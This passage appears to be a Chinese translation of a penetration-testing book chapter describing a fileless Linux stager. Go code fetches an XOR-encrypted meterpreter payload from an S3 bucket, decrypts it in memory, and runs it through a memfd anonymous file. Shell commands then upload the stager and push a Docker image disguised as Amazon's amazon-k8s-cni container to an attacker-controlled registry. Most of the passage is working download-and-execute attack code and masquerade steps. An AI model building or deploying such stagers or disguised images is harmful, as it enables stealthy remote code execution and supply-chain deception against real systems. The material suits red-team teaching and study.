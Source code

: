 以下是执行此操作的五个主要步骤：

1.  使用 XOR 操作加密原生 meterpreter 负载。

1.  将结果存储在 S3 存储桶中。

1.  创建一个下载加密负载的程序，该程序通过 HTTPS 在目标机器上执行。

1.  在内存中解密负载，并使用 memfd 系统调用初始化一个“匿名”文件。

1.  将解密后的负载复制到这个仅驻留在内存中的文件中，然后执行它。

列表 9-4 是我们的 stager 将执行的主要步骤的简化版——像往常一样，完整的代码托管在 GitHub 上。

```
func main() {
  // Download the encrypted meterpreter payload
  data, err := getURLContent(path)

  // Decrypt it using XOR operation
  decryptedData := decryptXor(data, []byte("verylongkey"))

  // Create an anonymous file in memory
  mfd, err := memfd.Create()

  // Write the decrypted payload to the file
  mfd.Write(decryptedData)

  // Get the symbolic link to the file
  filePath := fmt.Sprintf("/proc/self/fd/%d", mfd.Fd())

  // Execute the file
  cmd := exec.Command(filePath)
  out, err := cmd.Run()
}
```

列表 9-4：Stager 的高级操作

就这些了。我们不需要进行任何复杂的偏移计算、库热加载、程序链接表（PLT）段的修补或其他危险的技巧。我们有一个可靠的引导程序，它只在内存中执行文件，并且保证能够在任何最近的 Linux 发行版上运行。

我们编译代码，然后将其上传到 S3：

```
root@Point1:**opt/tmp/# aws s3api put-object \**
**--key run \**
**--bucket amazon-cni-plugin-essentials \**
**--body ./run**
```

最后，为了进一步增强骗局的网络，当我们构建容器的镜像并将其推送到我们自己的 AWS ECR 注册表时（ECR 相当于 AWS 上的 Docker Hub），我们是在伪装成一个合法的 Amazon 容器，即 amazon-k8s-cni：

```
root@Point1:~/# **docker build \**
**-t 886477354405.dkr.ecr.eu-west-1.amazonaws.com/amazon-k8s-cni:v1.5.3 .**

Successfully built be905757d9aa
Successfully tagged 886477354405.dkr.ecr.eu-west-1.amazonaws.com/amazon-k8s-cni:v1.5.3

# Authenticate to ECR
root@Point1:~/# **$(aws ecr get-login --no-include-email --region eu-west-1)**
root@Point1:~/# **docker push 886477354405.dkr.ecr.eu-west-1.amazonaws.com/amazon-k8s-cni:v1.5.3**
```
